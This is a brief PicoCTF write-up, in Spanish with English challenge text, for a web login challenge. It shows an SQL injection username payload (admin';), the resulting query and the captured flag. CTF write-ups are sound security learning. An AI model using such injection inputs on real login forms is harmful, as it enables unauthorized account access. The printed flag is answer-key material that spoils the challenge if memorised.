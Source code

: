 # Retos PicoCTF


## Objetivo 

There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Solución 

```
Se ingresa admin'; asi en la sentencia sql se ignora todo despues de admin.
username: admin';
password: 
SQL query: SELECT * FROM users WHERE name='admin';' AND password=''
Logged in!
Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

```

## Notas adicionales 
The password is being filtered.
## Referencias 
